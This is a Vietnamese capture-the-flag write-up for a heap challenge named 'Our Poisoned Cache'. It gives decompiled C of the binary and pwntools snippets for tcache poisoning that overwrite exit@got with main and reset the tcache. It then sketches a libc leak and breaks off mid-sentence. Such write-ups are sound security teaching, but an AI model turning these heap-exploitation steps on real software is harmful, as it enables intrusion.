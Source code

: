 # [Our Poisoned Cache - FPTU Hacking CTF 2022]

Checksec xem nó thế nào đã:
![image](https://user-images.githubusercontent.com/54637811/176064973-7838dab6-b41a-4afa-bac8-74be7196cbd1.png)

Trông khá hứa hẹn, còn đây là code của em nó sau khi dịch ngược:

```C
void main(EVP_PKEY_CTX *param_1) {
    undefined8 local_38;
    undefined8 *local_30;
    void *local_28;
    undefined8 *local_20;
    undefined8 *local_18;
    long *local_10;

    init(param_1);
    local_10 = (long *)malloc(0x40);
    local_18 = (undefined8 *)((ulong)local_10 & 0xfffffffffffff000);
    local_20 = local_18 + 0x4200;
    local_30 = (undefined8 *)0x0;
    local_38 = 0;
    malloc(0x10);
    free(local_10);
    printf("Heap base is: %p\n", local_18);
    printf("Stack address is: %p\n", &local_38);
    puts("You can write wherever you want inside the heap");
    puts("Where:");
    __isoc99_scanf("%p", &local_30);
    puts("What:");
    __isoc99_scanf("%p", &local_38);
    if ((local_18 <= local_30) && (local_30 < local_20)) {
        *local_30 = local_38;
    }
    if (((*local_10 == 0) && (local_18 <= (undefined8 *)local_10[1])) &&
        ((undefined8 *)local_10[1] < local_20))
    {
        local_28 = malloc(0x40);
        read(0, local_28, 0x30);
        exit(0);
    }
    exit(0);
}

void secret(void)

{
    char local_58[76];
    int local_c;

    puts("Do you trust me?");
    puts("Are you thinking this is it?");
    puts("Is this where you find my secret?");
    memset(local_58, 0, 0x40);
    local_c = open("./secret.txt", 0);
    read(local_c, local_58, 0x40);
    puts(local_58);
    close(local_c);
    return;
}
```

NÓ cho địa chỉ Heap và Stack, rồi nó cho Write Where What nhưng với điều kiện địa chỉ nằm trong Heap và Heap + 0x4200.

Để ý thì nó malloc 0x40 xong free ngay sau đó, để lại 1 freed chunk trong tcache bin. Nếu ta thay đổi con trỏ này thì lần malloc tiếp theo sẽ trả về con trỏ mới được ghi đè.

Mục tiêu đầu tiên cần nghĩ tới là để nó trỏ tới got để ghi đè exit@got bằng main.
```python
r.sendlineafter(b'Where:\n', hex(heap+0xa8).encode())
r.sendlineafter(b'What:\n', hex(bin.got['exit']).encode())
r.send(p64(bin.symbols['main']))
```
Ok ngon nghẻ, nhưng nếu lần 2 thì sẽ không được vì điều kiện này
```C
if (((*local_10 == 0) && (local_18 <= (undefined8 *)local_10[1])) &&
        ((undefined8 *)local_10[1] < local_20))
```

Khi ta malloc 0x40 để ghi đè ở bước trước thì nó sẽ để lại 1 số thứ linh tinh ở trên tcache bin
![image](https://user-images.githubusercontent.com/54637811/176068078-20484a51-7ab3-44d4-8e16-fb5f2ae0c801.png)
Như vậy lần malloc 0x40, free nó thì `*local_10 != 0`, không thỏa mãn điều kiện. Do đó ta cần dọn dẹp cái đống đó đi
```python
r.sendlineafter(b'Where:\n', hex(heap+0xa8).encode())
r.sendlineafter(b'What:\n', hex(heap+0x2a0).encode())
```
Ok các bước tiếp theo sẽ là ghi đè setvbuf@got thành puts@plt+6, ghi đè `_IO_2_1_stderr_` ở trên bss để nó trỏ tới chỗ nào đó có địa chỉ libc, thì chúng ta leak libc base. Dứt điểm bằng cách gh
